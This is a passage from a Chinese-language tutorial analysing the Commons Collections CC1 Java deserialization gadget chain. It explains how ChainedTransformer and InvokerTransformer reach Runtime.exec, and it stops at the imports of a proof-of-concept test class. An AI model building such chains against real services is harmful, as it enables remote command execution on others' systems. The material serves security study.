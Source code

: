 ```
                            annotationType.members().get(name)));
            }
        }
    }
}
```

但是，就算绕过了前面的判断，这里的**memberValue**的**setValue**方法参数仍然是不可控的，也就无法设置参数为**Runtime**

## ChainedTransformer

可以看到整个类的**transform**方法是成链式结构的，上一个经过**transform**的对象会作为下一轮的参数

![](./images/image-41.png)

因此可以将**decorate**的参数指定为一个**ChainedTransformer**，当其触发**setValue**的时候其中的对象会一层一层的传递，直到**Runtime**的**exec**方法被执行

因此代码结构可以如下，由于**Runtime**是无法被直接实例化的，因此这里链条的第一个是使用的**ConstantTransformer**，这个类的**transform**方法输入和输出的一致的，可以直接获取到**Runtime**的**Class**。

之后使用**InvokerTransformer**触发**getMethod**方法，随后无参数调用**invoke**获取到**getRuntime**从而进行实例化得到一个**Runtime**对象。

最后经过这个实例化对象调用**exec**方法，进行命令执行

```
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import org.junit.Test;

import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC1TEST {

    @Test
```